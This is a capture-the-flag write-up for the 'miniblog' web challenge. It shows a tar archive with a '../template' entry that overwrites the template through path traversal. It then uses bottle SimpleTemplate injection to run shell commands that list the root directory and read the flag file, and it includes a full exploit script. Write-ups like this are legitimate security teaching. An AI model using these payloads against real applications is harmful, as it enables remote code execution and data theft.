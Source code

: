 # miniblog
- Category: web
- Score: 353pts
- Solves: 14 solves
- Author: theoremoon

> I created a minimal blog platform. It doesn't use any complex things.
> Another instance: here

miniblog_466ff544c90345258849ac5dbde21b6a.tar.gz

## Description

Somehow I understood the question when I first see it lol.

It is a mini blog platform, after logging in I can do three things

- Create post
- Edit blog template
- Upload attachment in `tar` or `tar.gz`


The blog template contain some template, which I immediately feel it is SSTI
```py
    for brace in re.findall(r"{{.*?}}", content):
        if not re.match(r"{{!?[a-zA-Z0-9_]+}}", brace):
            return abort(400, "forbidden")
```

Hmm, weird regex.

The upload attachment feature only accept `tar` or `tar.gz`, and the question `tar.gz` provided have some weird `@PaxHeader` which does not unzip properly with 7-zip on windows, therefore I got a feeling of it is unzipping template to `../template` and bypass the filter.

## Solution

So lets create a tar file, and archive a file named `../template` in it, and copy some random SSTI code online in it. 

Failed.

---

Apparently the chal didn't use the common template solution `jinja2`, it is using `bottle` `
SimpleTemplate Engine` (as stated in the question description). So maybe I need to change the payload a bit?

The `SimpleTemplate Engine` support embedded python code so I can write easily.
https://bottlepy.org/docs/dev/stpl.html#simpletemplate-syntax

I tried these payload:

```
% for v in dir():
  {{v}}
% end
---
% for v in dir(__builtins__):
  {{v}}
% end
---
% for v in __builtins__:
  {{v}}
% end
---
% for v in __builtins__.values():
  {{v}}
% end
---
...
```

After these, I can import `os` and do RCE.

The full solution:

```py
#!/usr/bin/python2.7
import tarfile
import StringIO

tar = tarfile.TarFile("test.tar","w")
string = StringIO.StringIO()

# https://bottlepy.org/docs/dev/stpl.html#inline-expressions

string.write("""

{{ __builtins__.get("__import__")("os").popen('ls -al /').read() }}
{{ __builtins__.get("__import__")("os").popen('cat /unpredicable_name_flag').read() }}

""")

string.seek(0)
info = tarfile.TarInfo(name="../template")
info.size=len(string.buf)
tar.addfile(tarinfo=info, fileobj=string)
tar.close()
```

There are another interesting (unintended) solution is by inserting new line between `{{ }}` ( mentioned in https://furutsuki.hatenablog.com/entry/2020/09/06/230446 ). I haven't tried them tho.